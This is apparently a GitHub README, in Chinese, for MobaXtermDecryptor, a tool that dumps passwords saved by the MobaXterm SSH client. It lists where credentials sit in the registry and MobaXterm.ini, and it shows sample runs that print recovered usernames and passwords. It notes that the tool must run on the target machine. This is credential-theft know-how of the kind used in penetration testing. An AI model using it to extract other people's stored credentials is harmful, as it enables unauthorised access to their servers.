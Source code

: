 ## MobaXtermDecryptor

[![Author](https://img.shields.io/badge/author-h0ny-red.svg "Author")](https://github.com/h0ny "Author")
[![Visitors](https://visitor-badge.laobi.icu/badge?page_id=h0ny.MobaXtermDecryptor "Visitors")](https://github.com/h0ny/MobaXtermDecryptor "Visitors")
[![Stars](https://img.shields.io/github/stars/h0ny/MobaXtermDecryptor.svg?style=flat "Stars")](https://github.com/h0ny/MobaXtermDecryptor "Stars")
![GitHub Downloads (all assets, all releases)](https://img.shields.io/github/downloads/h0ny/MobaXtermDecryptor/total?color=orange)
[![GitHub Release](https://img.shields.io/github/v/release/h0ny/MobaXtermDecryptor)](https://github.com/h0ny/MobaXtermDecryptor/releases)
![GitHub License](https://img.shields.io/github/license/h0ny/MobaXtermDecryptor)

### 介绍

一个简单的 MobaXterm 密码转储工具。

---

用户凭据存储的位置：

| Registry Path                     | Registry Entry         | MobaXterm.ini | Description              |
| --------------------------------- | ---------------------- | ------------- | ------------------------ |
| HKCU\Software\Mobatek\MobaXterm   | SessionP               | [Misc]        | Entropy (DPAPI)          |
| HKCU\Software\Mobatek\MobaXterm\M | UserName@MachineName   | [Sesspass]    | MasterPassword (base64)  |
| HKCU\Software\Mobatek\MobaXterm\P | [All Registry Entries] | [Passwords]   | Passwords (ciphertext)   |
| HKCU\Software\Mobatek\MobaXterm\C | [All Registry Entries] | [Credentials] | Credentials (ciphertext) |

部分 MobaXterm.ini 内容示例：

```ini
[Misc]
SessionP=656078197542
MPSetAccount=Administrator
MPSetComputer=WIN-KC7O8UA7U4Q

[Credentials]
dev-user=root:hDkUY2nK

[Passwords]
mobauser@mobaserver=hnp+7YZCxO75h1e/w1tST2IvKHtWIIIRuKQ=

[Sesspass]
Administrator@WIN-Demo=AQAAALK+kjnRao9Fp9ljPL2GpQIAAAAAAgAAAAAAEGYAAAABAAAgAAAA8eEio3ElndSDHvad+IUTeuDcxECIp6BRTcnl4WUO0hQAAAAADoAAAAACAAAgAAAApYkVRexqVUB0W2aggCLirnpVr7XXvG4zkThBB5Cc34RgAAAAtuRBDfbxi9Ws5Fp7D2DAV12a/7+ZAC4Y8s6LryB0AmG6eByh2+ScguKs0nKsXupoHtQrq1esdbOF+KA5ObYKv7e9Cmb3X86HX90sRyaqRoi0faQ4BwL2EVFP3CAqNfVCQAAAAOIiPQ/546VgLw5vn2ptgn/ELHzOiGWwA7v9ov3Z0/POZrPXW+1jtb2PeGCkWyH82PDjx5c0UyO4j7xw/UzrDYE=
```

### 使用方法

对于 MobaXterm 安装版本直接运行即可：

```
PS C:\> .\MobaXtermDecryptor.exe --debug
[14:48:54 INF] [+] Logger initialized with level: Debug
[14:48:54 INF] [+] Automatic mode
[14:48:55 DBG] [+] Searching for MobaXterm process:
[14:48:55 DBG] [+]   Process Name: MobaXterm, Version: 24.2
[14:48:55 DBG] [+]   Process ID: 2448, Path: C:\Program Files (x86)\Mobatek\MobaXterm\MobaXterm.exe
[14:48:55 DBG] [-] MobaXterm.ini configuration file does not exist: C:\Program Files (x86)\Mobatek\MobaXterm\MobaXterm.ini
[14:48:55 DBG] [+] Read information from the registry: HKEY_CURRENT_USER\Software\Mobatek\MobaXterm\
[14:48:55 INF] [+] MobaXterm Installer Edition
[14:48:55 INF] [+] MobaXterm Credentials:
[14:48:55 INF] [*]   Name:     dev-user
[14:48:55 INF] [*]   Username: root
[14:48:55 INF] [*]   Password: Admin123
[14:48:55 INF] [*]
[14:48:55 INF] [+] MobaXterm Passwords:
[14:48:55 INF] [*]   ConnName: mobauser@mobaserver
[14:48:55 INF] [*]   Password: 39214moba204877pass6472
[14:48:55 INF] [*]
```

对于 MobaXterm 便携版本需要指定 MobaXterm.ini 文件：

```
PS C:\> .\MobaXtermDecryptor.exe mobaxterm --debug c:\Users\Administrator\Documents\MobaXterm\MobaXterm.ini
[14:38:32 INF] [+] Logger initialized with level: Debug
[14:38:32 INF] [+] Execute mobaxterm command
[14:38:33 INF] [+] MobaXterm.ini configuration file path: c:\Users\hony\Documents\MobaXterm\MobaXterm.ini
[14:38:33 INF] [+] MobaXterm Portable Edition
[14:38:33 INF] [+] MobaXterm Credentials:
[14:38:33 INF] [*]   Name:     dev-user
[14:38:33 INF] [*]   Username: root
[14:38:33 INF] [*]   Password: Admin123
[14:38:33 INF] [*]
[14:38:33 INF] [+] MobaXterm Passwords:
[14:38:33 INF] [*]   ConnName: mobauser@mobaserver
[14:38:33 INF] [*]   Password: 100374moba240717pass345585
[14:38:33 INF] [*]
```

> 注意：对于便携版也需要在目标机器上运行，因为有进行 DPAPI 解密操作。

### 参考项目

- https://github.com/qwqdanchun/Pillager
- https://github.com/XMCyber/XMCredentialsDecryptor
- https://github.com/HyperSine/how-does-MobaXterm-encrypt-password
